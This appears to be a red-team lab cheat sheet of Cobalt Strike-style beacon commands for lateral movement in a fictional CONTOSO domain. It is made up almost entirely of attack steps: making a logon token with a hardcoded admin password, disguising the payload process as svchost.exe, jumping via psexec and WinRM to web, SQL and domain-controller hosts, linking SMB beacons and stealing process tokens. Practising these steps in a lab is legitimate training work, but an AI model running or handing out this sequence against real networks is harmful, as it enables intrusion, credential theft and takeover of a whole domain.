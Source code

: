 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 DUB-WEB-1 smb

jump psexec64 DUB-WKSTN-2 smb

jump winrm64 DUB-WEB-1 smb

jump psexec64 DUB-SQL-1 smb

jump psexec64 LON-DC-1 smb
```

---

```powershell
link smb 192.168.110.52 dotnet-diagnostic-1337
```

```powershell
token-store steal 3184
token-store use 0 
```
